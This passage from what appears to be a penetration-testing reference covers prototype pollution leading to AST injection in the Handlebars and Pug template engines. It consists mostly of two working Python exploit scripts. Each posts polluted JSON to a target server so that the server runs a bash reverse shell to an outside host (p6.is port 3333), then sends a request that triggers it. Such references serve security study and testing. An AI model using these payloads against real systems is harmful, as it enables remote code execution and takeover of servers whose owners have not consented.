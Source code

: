 **External Reference**: [Issue related to prototype pollution in the 'flat' library](https://github.com/hughsk/flat/issues/105)

Example of prototype pollution exploit in Python:

```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})

# execute
requests.get(TARGET_URL)
```

#### Pug Vulnerability

Pug, another template engine, faces a similar risk of prototype pollution. Detailed information is available in the discussion on [AST Injection in Pug](https://blog.p6.is/AST-Injection/#Pug).

Example of prototype pollution in Pug:

```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
})

# execute
requests.get(TARGET_URL)
```
